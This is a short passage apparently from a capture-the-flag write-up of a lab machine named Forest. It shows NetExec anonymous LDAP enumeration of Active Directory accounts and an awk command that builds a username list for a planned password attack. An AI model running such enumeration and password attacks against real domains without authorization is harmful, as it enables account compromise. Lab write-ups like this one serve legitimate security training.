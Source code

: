 ```output
LDAP        10.129.33.34    389    FOREST           HealthMailbox670628e          2019-09-19 07:56:45 0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailbox968e74d          2019-09-19 07:56:56 0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailbox6ded678          2019-09-19 07:57:06 0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailbox83d6781          2019-09-19 07:57:17 0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailboxfd87238          2019-09-19 07:57:27 0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailboxb01ac64          2019-09-19 07:57:37 0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailbox7108a4e          2019-09-19 07:57:48 0                                                                    
LDAP        10.129.33.34    389    FOREST           HealthMailbox0659cc1          2019-09-19 07:57:58 0                                                                    
LDAP        10.129.33.34    389    FOREST           sebastien                     2019-09-19 20:29:59 0                                                                    
LDAP        10.129.33.34    389    FOREST           lucinda                       2019-09-19 20:44:13 0                                                                    
LDAP        10.129.33.34    389    FOREST           svc-alfresco                  2025-10-20 16:35:30 0                                                                    
LDAP        10.129.33.34    389    FOREST           andy                          2019-09-22 18:44:16 0                                                                    
LDAP        10.129.33.34    389    FOREST           mark                          2019-09-20 18:57:30 0                                                                    
LDAP        10.129.33.34    389    FOREST           santi                         2019-09-20 19:02:55 0                                                              
```

The user list from the anonymous LDAP enumeration was parsed using `awk` to extract usernames. This clean list, including `svc-alfresco`, was prepared for a password attack.
```bash
nxc ldap 10.129.33.34 -u '' -p '' --users --kdc  forest.htb.local | awk '{print $5}'
```

```output
Administrator
Guest
DefaultAccount
krbtgt
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
SM_9b69f1b9d2cc45549
SM_7c96b981967141ebb
SM_c75ee099d0a64c91b
SM_1ffab36a2f5f479cb
HealthMailboxc3d7722
HealthMailboxfc9daad
HealthMailboxc0a90c9
HealthMailbox670628e
HealthMailbox968e74d
HealthMailbox6ded678
HealthMailbox83d6781
HealthMailboxfd87238
HealthMailboxb01ac64
HealthMailbox7108a4e
HealthMailbox0659cc1
sebastien
lucinda
```